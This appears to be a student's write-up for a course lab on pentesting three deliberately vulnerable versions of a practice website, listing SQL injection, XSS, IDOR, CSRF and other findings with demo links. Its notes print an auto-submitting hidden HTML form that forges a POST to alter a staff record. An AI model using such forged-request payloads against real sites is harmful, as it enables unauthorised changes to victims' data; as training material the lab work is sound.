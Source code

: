 # Project 8 - Pentesting Live Targets

Time spent: 10 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)
[Week8_SQLI](http://i.imgur.com/iBXaxoC.gif?1)

Vulnerability #2: Session Hijacking/Fixation
http://i.imgur.com/vnp6gR0.gif

## Green

Vulnerability #1: Username Enumeration
http://i.imgur.com/xeWJxW2.gif

Vulnerability #2: Cross-Site Scripting
http://i.imgur.com/LGyb6Cw.gif

## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)
http://i.imgur.com/HhqdV19.gif

Vulnerability #2: Cross-Site Request Forgery

This one, I used postman to fire the POST request. After logging in as admin, I fired the POST request with the body of the following(see notes), however, I didn't see salespeople(id=7)'s info got editted. 


## Notes
<!-- HTML CODE-->
  <body onload="document.csrf.submit()">
    <form action="https://35.184.197.255/red/public/staff/salespeople/edit.php?id=7" method="POST" name="csrf" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="Hacker"><br>
      <input type="text" name="last_name" value="Hacker"><br>
      <input type="text" name="phone" value="999-999-9999"><br>
      <input type="text" name="email" value="hacker@hacker.com"><br>
    </form>
  </body>




